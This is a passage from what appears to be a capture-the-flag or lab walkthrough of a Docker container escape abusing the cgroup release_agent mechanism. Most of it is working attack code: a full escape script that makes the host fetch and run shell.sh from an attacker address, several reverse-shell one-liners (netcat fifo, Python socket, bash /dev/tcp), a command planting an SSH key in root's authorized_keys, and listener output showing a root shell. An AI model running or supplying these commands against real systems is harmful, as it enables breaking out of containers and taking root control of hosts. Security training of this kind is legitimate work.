 Finally, trigger the attack by spawning a process that immediately ends inside the cgroup that we created. OurÂ `release_agent`Â script will execute after the process ends. You can now read the output ofÂ `ps aux`Â on the host machine in theÂ `/output`Â file:

```
sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"
```

You can use the PoC to execute arbitrary commands on the host system. For example, you can use it to write your SSH key to the root userâ€™sÂ `authorized_keys`Â file:

```
cat id_rsa.pub >> /root/.ssh/authorized_keys
```



Back to our machine, we've found the way to perform the docker escape, instead of writing our key into `authorized_keys`, we can simply send a reverse shell, let's do the following:

```bash
mkdir /tmp/cgrp && mount -t cgroup -o rdma cgroup /tmp/cgrp && mkdir /tmp/cgrp/x

echo 1 > /tmp/cgrp/x/notify_on_release
host_path=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
echo "$host_path/cmd" > /tmp/cgrp/release_agent

echo '#!/bin/sh' > /cmd
echo 'curl 10.14.21.28:8000/shell.sh -o /dev/shm/shell.sh' >> /cmd
echo 'chmod +x /dev/shm/shell.sh' >> /cmd
chmod a+x /cmd
echo 'sh /dev/shm/shell.sh' >> /cmd
sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"
```


Before doing that, we need to host a `shell.sh` file with the following contents:

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc IP 9001 >/tmp/f

python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("IP",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("IP",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

bash -i >& /dev/tcp/IP/9001 0>&1
```

Once we start our listener and send the last command, we receive our shell as root:

```
nc -lvnp 9001
listening on [any] 9001 ...
connect to [10.14.21.28] from (UNKNOWN) [10.10.20.76] 33650
/bin/sh: 0: can't access tty; job control turned off
# whoami
root
# 
```
